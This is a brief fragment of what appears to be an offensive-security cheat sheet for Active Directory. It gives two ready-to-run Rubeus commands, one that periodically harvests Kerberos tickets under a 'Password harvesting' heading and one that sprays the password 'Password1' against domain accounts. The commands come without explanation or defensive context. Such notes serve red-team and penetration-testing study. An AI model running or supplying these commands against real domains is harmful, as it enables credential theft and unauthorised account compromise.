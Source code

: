 Password harvesting
```powershell
Rubeus.exe harvest /interval:30
```

Password Spraying
```powershell
Rubeus.exe brute /password:Password1 /noticket
```